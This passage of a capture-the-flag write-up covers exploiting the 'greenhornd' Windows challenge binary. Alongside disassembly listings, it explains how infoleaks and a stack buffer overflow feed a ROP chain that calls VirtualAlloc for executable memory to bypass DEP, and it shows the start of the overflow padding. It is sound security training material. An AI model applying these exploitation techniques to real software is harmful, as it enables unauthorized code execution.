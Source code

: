 also this might help a little bit:
```
0:000> u c81210
greenhornd+0x1210:
00c81210 55              push    ebp
00c81211 8bec            mov     ebp,esp
00c81213 81ec00040000    sub     esp,400h
00c81219 682821c800      push    offset greenhornd+0x2128 (00c82128)
00c8121e e8ad020000      call    greenhornd+0x14d0 (00c814d0)
00c81223 83c404          add     esp,4
00c81226 6a0a            push    0Ah
00c81228 6800080000      push    800h
```

## Exploitation

So we have a stack infoleak, an infoleak into the binary, and a buffer overflow bug. Now the end goal will be to call shellcode that prints out the flag (the app armor jail restricts what the process can do once we have code execution). Now since NX / DEP is enabled, we can't execute shellcode on the stack. Instead what we will do is jump in between places in the binary to accomplish several tasks (so ROP). The first task will be allocated `rwx` memory. The second task will be to copy our shellcode to the `rwx` region. After that we will jump to our shellcode in the `rwx` region, and get code execution through that.

Now before we start ROPing, there is a `POP` instruction. We will need to include an extra `4` byte value here in our rop chain to account for this.

```
        00401297 8b e5           MOV        ESP,EBP
        00401299 5d              POP        EBP
        0040129a c3              RET
```

So to reach the return address with the buffer overflow, and deal with the `POP EBP`, we will have the following values added to our payload:

```
payload = ''

payload = "C"
payload += "0"*0x3ff
```

Also one thing to consider, the stack leak we get is `0x3f8` bytes ahead of the start of our input. Thus the stack leak we get points to the final `0x4` bytes of the initial data to reach the return address.


#### Exploitation - VirtualAlloc Call

So we will need to call VirtualAlloc, in order to allocate the space for our shellcode. Checking the references to the imported `VirtualAlloc` function, we find this function at `0x4011c0` in the binary that calls it. Since we have the binary leak, we know where this function is in memory.

```
                             FUN_004011c0                                    XREF[1]:     aslr:00401333(c)  
        004011c0 55              PUSH       EBP
        004011c1 8b ec           MOV        EBP,ESP
        004011c3 8b 45 10        MOV        EAX,dword ptr [EBP + param_3]
        004011c6 50              PUSH       EAX
        004011c7 68 00 30        PUSH       0x3000
                 00 00
        004011cc 8b 4d 0c        MOV        ECX,dword ptr [EBP + param_2]
        004011cf 51              PUSH       ECX
        004011d0 8b 55 08        MOV        EDX,dword ptr [EBP + param_1]
        004011d3 52              PUSH       EDX
        004011d4 ff 15 00        CALL       dword ptr [->KERNEL32.DLL::VirtualAlloc]
```